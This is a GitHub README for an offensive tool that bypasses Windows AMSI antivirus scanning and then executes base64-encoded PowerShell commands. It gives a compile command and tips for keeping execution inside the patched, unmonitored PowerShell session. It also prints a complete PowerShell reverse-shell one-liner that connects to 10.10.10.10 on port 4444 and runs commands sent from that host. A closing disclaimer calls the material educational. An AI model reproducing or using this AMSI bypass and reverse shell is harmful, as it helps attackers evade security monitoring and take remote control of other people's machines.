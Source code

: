 # AmsiBypass-and-CommandExecution

## Demo Video

 
https://user-images.githubusercontent.com/89106058/232936480-b0e4e0d8-d435-449c-93c7-a3e8a150027e.mp4


## Compilation command

```powershell
g++ -m64 -o happy_hacking.exe -static main.cpp
```

## Important

- You must check that the commands contained in base64 belong exclusively to PowerShell to ensure their correct execution.
- You should always try to use Invoke-Expression to make the command run in the patched powershell to avoid creating new powershell instances that are not patched.

An example of a one-liner that contains only PowerShell statements and can be base64 encoded:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | ForEach-Object {0}; while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = ([System.Text.Encoding]::ASCII).GetString($bytes, 0, $i);$sendback = (Invoke-Expression $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> ';$sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush()};$client.Close();
```

Finally, I am not responsible for what you do with the code, this is purely for educational purposes.
